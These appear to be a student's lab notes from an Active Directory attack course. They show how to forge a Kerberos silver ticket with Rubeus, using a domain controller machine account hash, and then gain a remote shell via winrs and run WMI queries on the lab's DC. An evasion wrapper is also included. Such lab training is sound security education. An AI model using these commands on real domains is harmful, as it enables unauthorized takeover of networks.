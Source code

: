 
Task 

• During the additional lab time, try to get command execution on the domain controller by creating silver ticket for: 
− HTTP service 
− WMI

From the information gathered in previous steps we have the hash for machine account of the domain controller (us-dc$). Using the below command from an elevated shell, we can create a Silver Ticket that provides us access to the HTTP service of DC.

Please note that the hash of us-dc$ (RC4 in the below command) may be different in the lab. You can also use aes256 keys in place of NTLM hash:

```
echo %Pwn% silver
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:host/us-dc.us.techcorp.local /rc4:f4492105cb24a843356945e45402073e /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /user:Administrator /domain:us.techcorp.local /ptt
```

![[Pasted image 20250319012941.png]]

```
winrs -r:us-dc.us.techcorp.local cmd
```

![[Pasted image 20250319013011.png]]

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args%Pwn% /service:host/us-dc.us.techcorp.local /rc4:f4492105cb24a843356945e45402073e /ldap /sid:S-1-5-21-210670787- 2521448726-163245708 /user:Administrator /domain:us.techcorp.local /ptt
```


![[Pasted image 20250319013227.png]]

```
klist
```

![[Pasted image 20250319013328.png]]
Now, try running WMI commands on the domain controller:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
Get-WmiObject -Class win32_operatingsystem -ComputerName us-dc.us.techcorp.local
```

![[Pasted image 20250319013416.png]]






